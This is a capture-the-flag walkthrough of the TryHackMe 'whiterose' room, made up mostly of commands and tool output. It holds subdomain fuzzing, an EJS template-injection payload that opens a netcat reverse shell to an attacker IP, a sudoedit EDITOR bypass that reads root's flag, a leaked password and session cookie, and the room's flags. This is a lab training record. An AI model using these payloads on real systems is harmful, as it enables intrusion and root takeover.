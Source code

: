 

https://tryhackme.com/room/whiterose


ffuf -u http://10.10.116.234/ -H "Host:FUZZ.cyprusbank.thm" -w ~/Downloads/wordlists/subdomains-top1million-5000.txt -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.116.234/
 :: Wordlist         : FUZZ: /home/jeon/Downloads/wordlists/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 1
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
:: Progress: [4989/4989] :: Job [1/1] :: 142 req/sec :: Duration: [0:00:35] :: Errors: 0 ::



http://admin.cyprusbank.thm/messages/?c=10

Gayle Bev: p~]P@5!6;rs558:q




Using Burp Suite to intercept the request, we modify the password parameter and observe an error message indicating that EJS (Embedded JavaScript) files are being used.


POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3AJOexcjMZ8sf5FRIGKw1hQqE8qcQ_Auti.H9cKb7IHVdDLa6bOzxOfYV9UlEHcVyBC6ounhAxKaXY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=test&password1=test

ReferenceError: /home/web/app/views/settings.ejs:14


ssti

name=test&password1=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%20
2%3E%261%7Cnc%2010.17.19.196%205555%20%3E%2Ftmp%2Ff');s



nc -lnvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.116.234 58146
sh: 0: can't access tty; job control turned off
$ whoami
web
$ pwd
/home/web/app
$ ls
components
index.js
node_modules
package.json
package-lock.json
routes
static
views
$ cd 
$ ls
app
user.txt
$ cat user.txt
THM{4lways_upd4te_uR_d3p3nd3nc!3s}

$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
$ sudoedit -V
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
$ export EDITOR="vi -- /root/root.txt"
$ echo $EDITOR
vi -- /root/root.txt
$     sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm


THM{4nd_uR_p4ck4g3s}
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
"/var/tmp/rootZWkIXB0v.txt" 1L, 21C                           1,1           All

